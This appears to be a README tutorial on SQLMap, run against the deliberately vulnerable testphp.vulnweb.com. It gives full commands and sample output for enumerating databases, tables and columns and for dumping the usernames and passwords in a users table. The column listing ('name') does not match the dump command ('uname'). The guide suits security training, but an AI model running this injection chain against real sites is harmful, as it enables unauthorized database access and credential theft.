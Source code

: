 # 🚀 SQLMap Installation and Usage Guide

## 1. 🔧 Installation of SQLMap

### 📷 Screenshot:
![Installation: ](screenshots/database_detection.png)


Run the following command to install SQLMap on your Linux system:

```bash
sudo apt update && sudo apt install sqlmap -y
```

---

## 2. 🛡️ Database Detection

### 📷 Screenshot:
![Database Detection](screenshots/database_detection.png)


To detect databases on a vulnerable website, use the command:

```bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
```

### ⚙️ Explanation:
- `-u "http://testphp.vulnweb.com/listproducts.php?cat=1"`: Specifies the URL to test. The `cat=1` is a potential SQL injection point.
- `--dbs`: Lists all available databases on the target if it is vulnerable to SQL injection.


### 📷 Screenshot:
![Database Detection Output](screenshots/database_detection.png)

### ✅ Output:
```
Databases:
- acuart
- information_schema
```
---

## 3. 📊 Tables Detection

### 📷 Screenshot:
![Tables Detection](screenshots/tables_detection.png)

To list tables within the discovered `acuart` database, run:

```bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
```

### ⚙️ Explanation:
- `-D acuart`: Specifies the target database.
- `--tables`: Lists all tables within the `acuart` database.

### 📷 Screenshot:
![Tables Detection Output](screenshots/tables_detection.png)

### ✅ Output:
```
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| products  |
| pictures  |
| users     |
+-----------+
```



---

## 4. 📑 Columns Detection

### 📷 Screenshot:
![Columns Detection](screenshots/columns_detection.png)

To enumerate columns within the `users` table:

```bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns
```

### ⚙️ Explanation:
- `-D acuart`: Specifies the target database.
- `-T users`: Specifies the target table.
- `--columns`: Lists columns in the `users` table.

### 📷 Screenshot:
![Columns Detection](screenshots/columns_detection.png)

### ✅ Output:
```
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| name    | varchar(100) |
| address | mediumtext   |
| email   | varchar(100) |
| pass    | varchar(100) |
+---------+--------------+
```

---

## 5. 🔑 Collecting Credentials

### 📷 Screenshot:
![Credentials Collection](screenshots/credentials_collection.png)

To dump specific columns like `uname` and `pass` from the `users` table:

```bash
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users -C uname,pass --dump
```

### ⚙️ Explanation:
- `-T users`: Target table.
- `-C uname,pass`: Columns to dump.
- `--dump`: Extract and display data.

### 📷 Screenshot:
![Credentials Collection Output](screenshots/credentials_collection.png)

### ✅ Sample Output:
```
+-------+------+
| uname | pass |
+-------+------+
| test  | test |
+-------+------+
```



---

## ⚠️ Disclaimer

> Unauthorized testing or exploiting websites without explicit permission is illegal and unethical. Always ensure you have proper authorization before using SQLMap or similar tools.



